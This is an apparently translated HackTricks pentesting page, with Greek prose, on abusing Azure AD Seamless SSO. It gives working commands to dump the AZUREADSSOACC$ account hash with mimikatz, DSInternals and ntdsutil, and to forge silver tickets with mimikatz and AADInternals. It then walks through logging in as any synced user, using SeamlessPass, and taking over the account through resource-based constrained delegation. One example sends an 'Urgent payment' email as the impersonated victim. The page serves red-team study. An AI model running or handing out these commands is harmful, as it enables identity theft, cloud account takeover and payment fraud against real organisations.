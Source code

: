 # Az - Seamless SSO

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Το Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) **συνδέει αυτόματα τους χρήστες όταν βρίσκονται σε εταιρικές συσκευές** που είναι συνδεδεμένες στο εταιρικό σας δίκτυο. Όταν είναι ενεργοποιημένο, **οι χρήστες δεν χρειάζεται να πληκτρολογούν τους κωδικούς πρόσβασής τους για να συνδεθούν στο Azure AD**, και συνήθως, ούτε καν να πληκτρολογούν τα ονόματα χρήστη τους. Αυτή η δυνατότητα παρέχει στους χρήστες σας εύκολη πρόσβαση στις εφαρμογές σας που βασίζονται στο cloud χωρίς να χρειάζονται επιπλέον τοπικά στοιχεία.

<figure><img src="../../../../images/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Βασικά, το Azure AD Seamless SSO **συνδέει τους χρήστες** όταν βρίσκονται **σε έναν υπολογιστή που είναι συνδεδεμένος σε τοπικό τομέα**.

Υποστηρίζεται και από τους [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) και [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Το Desktop SSO χρησιμοποιεί **Kerberos** για την αυθεντικοποίηση. Όταν ρυθμιστεί, το Azure AD Connect δημιουργεί έναν **λογαριασμό υπολογιστή που ονομάζεται AZUREADSSOACC`$`** στο τοπικό AD. Ο κωδικός πρόσβασης του λογαριασμού `AZUREADSSOACC$` **αποστέλλεται ως απλό κείμενο στο Azure AD** κατά τη διάρκεια της ρύθμισης.

Τα **εισιτήρια Kerberos** είναι **κρυπτογραφημένα** χρησιμοποιώντας το **NTHash (MD4)** του κωδικού πρόσβασης και το Azure AD χρησιμοποιεί τον αποσταλμένο κωδικό πρόσβασης για να αποκρυπτογραφήσει τα εισιτήρια.

**Το Azure AD** εκθέτει ένα **endpoint** (https://autologon.microsoftazuread-sso.com) που δέχεται **εισιτήρια** Kerberos. Ο περιηγητής της μηχανής που είναι συνδεδεμένη σε τομέα προωθεί τα εισιτήρια σε αυτό το endpoint για SSO.

### On-prem -> cloud

Ο **κωδικός πρόσβασης** του χρήστη **`AZUREADSSOACC$` δεν αλλάζει ποτέ**. Επομένως, ένας διαχειριστής τομέα θα μπορούσε να παραβιάσει το **hash αυτού του λογαριασμού**, και στη συνέχεια να το χρησιμοποιήσει για να **δημιουργήσει ασημένια εισιτήρια** για να συνδεθεί στο Azure με **οποιονδήποτε τοπικό χρήστη συγχρονισμένο**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Με το hash μπορείτε τώρα **να δημιουργήσετε ασημένια εισιτήρια**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Για να χρησιμοποιήσετε το silver ticket, θα πρέπει να εκτελέσετε τα εξής βήματα:

1. **Εκκίνηση του Browser:** Πρέπει να εκκινήσετε τον Mozilla Firefox.
2. **Ρύθμιση του Browser:**
- Μεταβείτε στο **`about:config`**.
- Ρυθμίστε την προτίμηση για [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) στις καθορισμένες [τιμές](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
- `https://aadg.windows.net.nsatc.net`
- `https://autologon.microsoftazuread-sso.com`
3. **Πρόσβαση στην Ιστοσελίδα Εφαρμογής:**
- Επισκεφθείτε μια διαδικτυακή εφαρμογή που είναι ενσωματωμένη με το AAD domain της οργάνωσης. Ένα κοινό παράδειγμα είναι το [Office 365](https://portal.office.com/).
4. **Διαδικασία Αυθεντικοποίησης:**
- Στην οθόνη σύνδεσης, πρέπει να εισαχθεί το όνομα χρήστη, αφήνοντας το πεδίο κωδικού πρόσβασης κενό.
- Για να προχωρήσετε, πατήστε είτε TAB είτε ENTER.

> [!TIP]
> Αυτό δεν παρακάμπτει το MFA αν είναι ενεργοποιημένο

#### Επιλογή 2 χωρίς dcsync - SeamlessPass

Είναι επίσης δυνατό να εκτελέσετε αυτήν την επίθεση **χωρίς επίθεση dcsync** για να είστε πιο διακριτικοί, όπως [εξηγείται σε αυτήν την ανάρτηση blog](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Για αυτό χρειάζεστε μόνο ένα από τα εξής:

- **TGT ενός συμβιβασμένου χρήστη:** Ακόμα και αν δεν έχετε ένα, αλλά ο χρήστης έχει συμβιβαστεί, μπορείτε να αποκτήσετε ένα χρησιμοποιώντας το κόλπο ψεύτικης TGT delegation που έχει υλοποιηθεί σε πολλά εργαλεία όπως το [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) και το [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
- **Golden Ticket**: Αν έχετε το κλειδί KRBTGT, μπορείτε να δημιουργήσετε το TGT που χρειάζεστε για τον επιτιθέμενο χρήστη.
- **NTLM hash ή AES key ενός συμβιβασμένου χρήστη:** Το SeamlessPass θα επικοινωνήσει με τον domain controller με αυτές τις πληροφορίες για να δημιουργήσει το TGT.
- **NTLM hash ή AES key του λογαριασμού AZUREADSSOACC$:** Με αυτές τις πληροφορίες και τον Security Identifier (SID) του χρήστη που θέλετε να επιτεθείτε, είναι δυνατό να δημιουργήσετε ένα service ticket και να αυθεντικοποιηθείτε με το cloud (όπως εκτελέστηκε στην προηγούμενη μέθοδο).

Τέλος, με το TGT είναι δυνατό να χρησιμοποιήσετε το εργαλείο [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) με:
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
Περισσότερες πληροφορίες για να ρυθμίσετε το Firefox να λειτουργεί με seamless SSO μπορούν να [**βρεθούν σε αυτήν την ανάρτηση ιστολογίου**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Δημιουργία Kerberos tickets για χρήστες μόνο στο cloud~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Εάν οι διαχειριστές του Active Directory έχουν πρόσβαση στο Azure AD Connect, μπορούν να **ορίσουν SID για οποιονδήποτε χρήστη cloud**. Με αυτόν τον τρόπο, τα Kerberos **tickets** μπορούν να **δημιουργηθούν και για χρήστες μόνο στο cloud**. Η μόνη απαίτηση είναι ότι το SID είναι ένα κατάλληλο [SID](<https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824(v=ws.10)>).

> [!CAUTION]
> Η αλλαγή του SID των χρηστών διαχειριστών μόνο στο cloud είναι τώρα **μπλοκαρισμένη από τη Microsoft**.\
> Για πληροφορίες ελέγξτε [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)

### On-prem -> Cloud μέσω Resource Based Constrained Delegation <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Οποιοσδήποτε μπορεί να διαχειριστεί λογαριασμούς υπολογιστών (`AZUREADSSOACC$`) στο κοντέινερ ή OU όπου βρίσκεται αυτός ο λογαριασμός, μπορεί να **ρυθμίσει μια περιορισμένη ανάθεση πόρων πάνω στον λογαριασμό και να έχει πρόσβαση σε αυτόν**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Αναφορές

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
- [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
- [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)
- [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{{#include ../../../../banners/hacktricks-training.md}}
